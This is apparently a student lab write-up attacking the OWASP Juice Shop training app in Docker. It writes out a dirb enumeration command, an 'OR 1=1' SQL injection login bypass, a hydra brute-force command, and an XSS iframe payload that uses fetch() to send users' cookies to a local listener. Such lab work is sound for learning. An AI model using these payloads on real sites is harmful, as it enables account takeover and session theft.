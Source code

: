 # juiceshop-cyber project 2024

first we install juice shop on a docker 
then run it in thebackground using
sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

# Enumeration Testing

we use drib tool
dirb http://172.17.0.1:3000/# /usr/share/wordlists/dirb/common.txt -v | grep admin
it got the hidden paths that are hidden from a normal user
then we found a page called administration that can show all users on the webiste
![image](https://github.com/user-attachments/assets/93523f8d-6694-48c8-967d-1c1fcca74b79)

# Sql Injection
we are going to go the login page and try this sql command
admin’ OR 1=1 – “ it will work and we will access the site as an admin
![image](https://github.com/user-attachments/assets/d36a6ca5-9caa-456a-9f6f-dfd2ec0cedd5)

# Brute Forcing
we now logged in as an admin but we still dont know the password of the admin account there fore we are using
hydra as a tool
hydra -s 3000 -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 172.17.0.1 http-post-form 
"/#/login:email=^USER^&password=^PASS^:F=Invalid email or password." -V -I -f -t 1 -w 1

which takes the admin email and the path of wordlists from the location and the ip which we will brute force and the fields we are going to brute force on which we got from whiteshark and attempts 1 task per 1 server and -w is the delay between each task which will be 1 second only
![image](https://github.com/user-attachments/assets/122628ba-a988-44f4-94d2-9254e1b573b6)


# Xss in product search

first we make a temporary server to store the cookie or tokens
python -m http.server 8080
we also injected this commmand in the product search bar so whenever a user searches something it takes his token and cookie
<iframe src="javascript:fetch('http://172.17.0.1:8080?cookie='+document.cookie)"></iframe>


we also injected a soundcloud sound to mess with the person
using this
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" 
src="https://w.soundcloud.com/player/?
 url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_relate
 d=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>

![image](https://github.com/user-attachments/assets/41c1c49b-6e8b-4106-9c17-836d4b216972)


